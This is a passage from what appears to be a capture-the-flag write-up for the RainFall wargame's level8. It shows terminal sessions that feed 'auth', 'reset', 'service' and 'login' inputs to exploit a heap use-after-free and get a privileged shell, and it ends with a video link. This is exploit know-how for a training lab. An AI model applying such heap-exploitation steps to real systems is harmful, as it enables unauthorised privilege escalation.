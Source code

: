 Becaue GDB doesn't have the SUID bit, we can't get the flag, but by remaking every step command inputed in the same order to the `level8` binary, we can make the exploit work:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth admin
0x804a008, (nil) 
reset
0x804a008, (nil) 
service AAA
0x804a008, 0x804a008 
service BBB
0x804a008, 0x804a018 
service CCC
0x804a008, 0x804a028 
login
$
```
Or even:
```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth admin
0x804a008, (nil) 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
login
$
```

# Resources
[LiveOverflow User-After-Free](https://www.youtube.com/watch?v=ZHghwsTRyzQ)